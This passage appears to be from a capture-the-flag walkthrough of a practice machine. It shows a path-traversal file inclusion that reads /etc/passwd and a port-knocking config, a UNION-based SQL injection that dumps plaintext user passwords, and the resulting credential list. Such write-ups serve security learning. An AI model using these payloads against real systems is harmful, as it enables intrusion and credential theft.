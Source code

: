 
### 4. Log in to the site
These creds allow access to the admin panel of thje site. There is some functionality to add records to the database. After playing with this a bunch, there doesn't appear to be any useful function with this. The only other thing of note is that at the bottom of the page is a "File does not exist" message. Using this cue, browsing to http://192.168.34.140/manage.php?file=../../../../../../etc/passwd shows the linux passwd file on screen.  
  
### 5. Explore the LFI
Interestingly, I see a lot of the users have shell accounts on the system. Going back to the SQL Injection, retrieve the passwords to each user with `test' union select concat(Username, ':', Password), null, null, null, null, null from users.UserDetails;-- `. The passwords come out in plaintext (see creds.txt).

```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ cat creds.txt 
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```

If any of these creds are valid on the machine, then access over SSH is possible. However SSH is filtered on the machine, so accessing it doesn't work. Filtering might indicate there is a port knocking application active, so this can be searched for within the output of http://192.168.34.140/manage.php?file=../../../../../../proc/sched_debug.
```
resolve 517 2989.318880 10 120 0.000000 4.077722 0.000000 0 0 / S knockd 493 2962.581370 29 120 0.000000 7.444837 
```

Knockd is indeed present on the machine. The config file for the service is located at knockd.conf: http://192.168.34.140/manage.php?file=../../../../../../etc/knockd.conf.
```
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 
```
The open SSH sequence is seen to be 7469,8475,9842.
